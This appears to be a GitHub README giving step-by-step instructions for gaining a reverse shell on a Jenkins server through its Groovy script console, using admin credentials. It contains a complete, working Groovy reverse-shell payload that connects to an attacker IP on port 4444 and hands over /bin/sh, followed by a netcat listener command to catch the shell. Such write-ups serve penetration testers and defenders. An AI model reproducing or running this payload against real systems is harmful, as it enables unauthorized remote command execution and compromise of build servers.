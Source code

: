 # Jenkins - Execute a script in the console

## Requirements

 - A valid **username and password** of a user with **admin rights** on the Jenkins.

## Exploitation

### Step 1: Access the Jenkins

First of all, you need to access the Jenkins with a user having **admin rights** on the Jenkins:

![](./imgs/welcome.png)

### Step 2: Access the script console

Then go in the Jenkins script console page:

![](./imgs/script_console.png)

### Step 3: Start a reverse shell

You can execute Groovy script in the Jenkins script console, so you can start a reverse shell! You can use the following payload (from here: [https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy](https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy)): 

```java
String host="192.168.1.27";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](./imgs/reverse_shell.png)

### Step 3: Enjoy your shell

Now, prepare your listener with netcat (`nc -lvp <port>`) and enjoy your shell:

![](./imgs/shell.png)

### Demonstration

Here is a video walkthrough of this technique:



## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
